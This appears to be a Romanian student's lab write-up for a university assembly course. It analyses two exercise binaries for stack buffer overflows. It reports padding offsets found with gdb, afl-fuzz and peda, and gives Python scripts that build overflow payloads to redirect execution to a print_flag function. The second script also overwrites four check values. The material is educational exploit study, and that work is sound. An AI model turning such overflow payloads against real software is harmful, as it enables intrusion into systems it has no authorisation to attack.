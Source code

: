 # IOCLA Tema 3

## Exercitiul 1

O posibila vulnerabilitate este legata de buffer overflow. La adresa 0x8048663 din cod , unde se afla un "entry point" in functia "print_flag" (care are mai multe entry point-uri), se aloca spatiu pe stiva pentru a citi un string de la tastatura. Spatiul alocat pe stiva este mult mai mic decat cel ce poate fi citit de la tastatura. Putem folosi astfel un string mai mare pentru a genera un buffer overflow si sa alteram control flow-ul programului, deoarece, dupa citirea sirului de caractere, de pe stiva se incarca in $eax o adresa, unde va sari executia programului (call eax)

Provocand un buffer overflow, putem incarca o alta valoare in $eax, de pe stiva, si astfel, sa sarim cu executia programului la o adresa aleasa de noi.

Adresa entry point-ului : 0x8048663 (unde incep problemele)

## Exercitiul 2

In urma analizarii executabilului (cu ajutorul gdb si afl-fuzz) am determinat lungimea minima a unui string/payload ca fiind de 1118 caractere (1117 caractere se incadreaza in limite). Urmatoarele 4 caractere din payload sunt incarcate in registrul eax (ca pointer), si apoi executia programului sare la acel pointer. Am contruit payload-ul folosind urmatorul script python:

```python
import struct
pad = "\x41" * 1117
EIP = struct.pack("I", 0x080485b1);
print pad + EIP
```

Avem un padding de 1117 bytes, urmat de adresa la care vom sari, 0x080485b1, inceputul functiei print_flag.

## Exercitiul 3

La fel ca la primul binar, vulnerabilitatea este reprezentata de posibilitatea utilizarii unui buffer overflow pentru a suprascrie o "adresa de intoarcere" (se face un "call eax", dupa ce registrul $eax a primit o valoare de pe stiva).

Adresa entry point-ului : 0x08048682 (unde incep problemele)

Totusi, acea "adresa de intoarcere" nu este singura valoare ce trebuie suprascrisa pentru a face ce ne-am propus, deoarece exista 4 "teste" : se cauta valori pe stiva si se verifica daca sunt egale cu anumite valori hardcodate. Raspunsurile care trebuiesc date sunt, in ordine, urmatoarele: 
- 0x5b0aeb93
- 0x434a5c2c
- 0x08108164
- 0xabdc4f01
  
Folosind peda, am creat un pattern, pe care l-am folosit ca payload. Cand ajungeam la "teste", cautam in payload valoarea testata, pentru a-i afla pozitia.

- 0x5b0aeb93 - 229
- 0x434a5c2c - 470
- 0x08108164 - 648
- 0xabdc4f01 - 720

Am construit payloadul folosind urmatorul script python:
```python
import struct
test1 = "\x41" * 229
answer1 = struct.pack("I", 0x5b0aeb93);
test2 = "\x42" * 237
answer2 = struct.pack("I", 0x434a5c2c);
test3 = "\x43" * 174
answer3 = struct.pack("I", 0x08108164);
test4 = "\x44" * 68
answer4 = struct.pack("I", 0xabdc4f01);

pad = "\x41" * 447
EIP = struct.pack("I", 0x080485b1);
print test1 + answer1 + test2 + answer2 + test3 + answer3 + test4 + answer4 + pad + EIP
```
test* si pad - padding pentru valori
answer* si EIP - valorile care vrem sa le setam

Dimensiunile padding-urilor sunt calculate dupa formula:
```
size = loc_test_curr - loc_test_prev - 4

size = dimensiunea dorita
loc_test_curr = pozitia in input a "raspunsului" la testul curent
loc_test_prev = pozitia in input a "raspunsului" la testul anterior
4 = dimensiunea in bytes a raspunsului anterior

Pentru test 3 : 648 - 470 - 4 = 174
```

Folosind aceeasi metoda, am aflat locatia de unde se incarca valoarea registrului $eax, pentru care se face call (1171). De unde a rezultat dimensiunea 447 a padingului.

Adresa care vrem sa fie scrisa este 0x080485b1, inceputul functiei print_flag.

© 2020 Grama Nicolae, 322CA